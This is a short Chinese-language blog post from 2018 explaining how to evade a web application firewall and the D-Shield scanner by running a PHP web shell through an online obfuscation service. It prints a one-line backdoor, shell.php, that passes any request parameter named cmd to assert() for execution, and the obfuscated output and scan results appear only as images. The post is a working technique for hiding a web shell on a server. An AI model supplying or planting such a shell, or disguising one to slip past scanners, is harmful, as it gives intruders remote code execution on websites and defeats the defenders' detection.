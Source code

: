 ```yaml
---
title: "PHP 加密 Bypass WAF"
date: 2018-03-19T00:00:00+08:00
draft: false
tags: ['php']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


利用国内的 php 混淆加密绕过 waf

<!--more-->

原始代码

```
<?php
// shell.php
assert($_REQUEST['cmd']);
?>
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459418.jpg)

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459420.jpg)

D盾 4级

enphp.djunny.com

在线加密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459422.jpg)

注意混淆选择字母 php 版本自行修改

加密后代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459424.jpg)

shell_encode.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459426.jpg)
